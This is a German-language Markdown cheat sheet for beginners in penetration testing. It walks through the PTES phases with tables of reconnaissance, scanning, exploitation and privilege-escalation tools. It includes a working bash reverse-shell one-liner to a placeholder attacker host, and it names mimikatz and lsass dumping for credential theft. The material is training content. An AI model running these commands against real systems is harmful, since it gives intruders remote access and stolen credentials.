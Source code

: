 # 🛡️ Pentest Basics – Einstieg ins Penetration Testing

> Diese Übersicht vermittelt dir die wichtigsten Schritte, Tools und Begriffe für manuelle sowie automatisierte Pentests. Perfekt für Anfänger und zur Prüfungsvorbereitung.

---

## 🧭 Pentesting-Phasen (PTES)

1. **Reconnaissance** – Informationsgewinnung  
2. **Scanning & Enumeration** – Zielsysteme identifizieren  
3. **Exploitation** – Schwachstellen ausnutzen  
4. **Post-Exploitation** – Vertiefung und Ausweitung des Zugriffs  
5. **Reporting** – Ergebnisdokumentation

---

## 🔍 1. Reconnaissance (Passive Informationsbeschaffung)

| Tool / Befehl                   | Zweck                                  |
|---------------------------------|----------------------------------------|
| `whois domain.com`              | Whois-Informationen zur Domain         |
| `nslookup`, `dig`               | DNS-Abfragen                           |
| `theHarvester`                  | E-Mail- und Domaininfos sammeln        |
| `shodan.io`                     | IoT- und öffentlich erreichbare Geräte |
| `Google Dorking`                | Spezielle Google-Suchabfragen          |

---

## 📡 2. Scanning & Enumeration (Aktive Analyse)

### Netzwerkscan

| Tool / Befehl                   | Beschreibung                            |
|---------------------------------|------------------------------------------|
| `nmap -sS 192.168.1.1`          | TCP SYN-Scan                            |
| `nmap -sV -O target.com`        | Version + OS-Erkennung                  |
| `nmap --script vuln`            | Verwundbarkeits-Scan                    |

### Dienste enumerieren

| Tool                  | Zweck                              |
|-----------------------|------------------------------------|
| `enum4linux`          | SMB/NetBIOS-Enumeration            |
| `smbclient`           | Zugriff auf offene SMB-Shares      |
| `ldapsearch`          | LDAP-Abfrage                       |
| `nikto`               | Webserver-Scan (Verwundbarkeiten)  |
| `dirb` / `gobuster`   | Verzeichnisse und Dateien entdecken|

---

## 💥 3. Exploitation (Angriff)

| Tool / Technik        | Beschreibung                       |
|-----------------------|-------------------------------------|
| `msfconsole`          | Metasploit-Framework                |
| `searchsploit`        | Exploit-Datenbank (offline)         |
| `python -m http.server` | Dateiserver für Payloads         |
| `sqlmap`              | SQL-Injection automatisieren        |
| `xss`, `csrf`, `rce`  | Gängige Schwachstellen              |

---

## 🧪 4. Post-Exploitation

| Technik / Tool        | Beschreibung                         |
|-----------------------|----------------------------------------|
| `netstat -ano`        | Offene Verbindungen prüfen            |
| `mimikatz`            | Windows-Credentials extrahieren       |
| `lsass` Dumping       | Tokens auslesen                       |
| `linuxprivchecker.py`| Privilege Escalation auf Linux testen |
| `linPEAS`, `winPEAS`  | Automatisiertes PE-Tool               |

---

## 🔐 5. Rechteausweitung (Privilege Escalation)

| Linux                                | Windows                              |
|-------------------------------------|--------------------------------------|
| SUID/SGID Binary-Missbrauch         | Unquoted Service Paths               |
| Schwache Cronjobs                   | AlwaysInstallElevated               |
| `sudo -l`                           | DLL Hijacking                        |
| Kernel-Exploits (Exploit-DB)        | Token-Impersonation                  |

---

## 🛠️ Wichtige Tools (Essentials)

| Tool              | Zweck                                   |
|-------------------|------------------------------------------|
| `Burp Suite`      | Web Application Testing (Proxy, Scanner) |
| `Hydra`, `Medusa` | Brute Force auf Login-Portale            |
| `Netcat`          | Reverse/Bind Shells                      |
| `John`, `Hashcat` | Passwort-Cracking                        |
| `Wireshark`       | Netzwerkverkehr analysieren              |
| `ncat`            | Verschlüsselter Netcat-Ersatz            |

---

## 📚 Begriffe & Techniken

| Begriff         | Bedeutung                                     |
|-----------------|-----------------------------------------------|
| CVE             | Common Vulnerabilities and Exposures         |
| CVSS            | Common Vulnerability Scoring System          |
| PoC             | Proof of Concept (z. B. funktionierender Exploit) |
| Pivoting        | Nutzung eines kompromittierten Systems als Sprungbrett |
| Tunneling       | Verkehr über andere Protokolle/Ports schleusen |

---

## 💡 Beispiel: Reverse Shell (Linux Bash)

```bash
# Opfer (Opfer bekommt Shell):
bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# Angreifer:
nc -lvnp 4444
```

---

### 🗒️ Reporting Tipps

- Beschreibung der Schwachstelle
- Reproduktionsschritte
- Risiko (CVSS-Score, falls verfügbar)
- Screenshot / Beweis
- Empfehlung zur Behebung

---

## 🧠 Nützliche Links

- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/dashboard) 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit-DB](https://www.exploit-db.com/)
- [Red Team Notes](https://book.hacktricks.wiki/en/index.html)

---

**Letzte Aktualisierung:** Juli 2025  
Pull Requests für neue Shortcuts, Plugins oder Verbesserungen willkommen!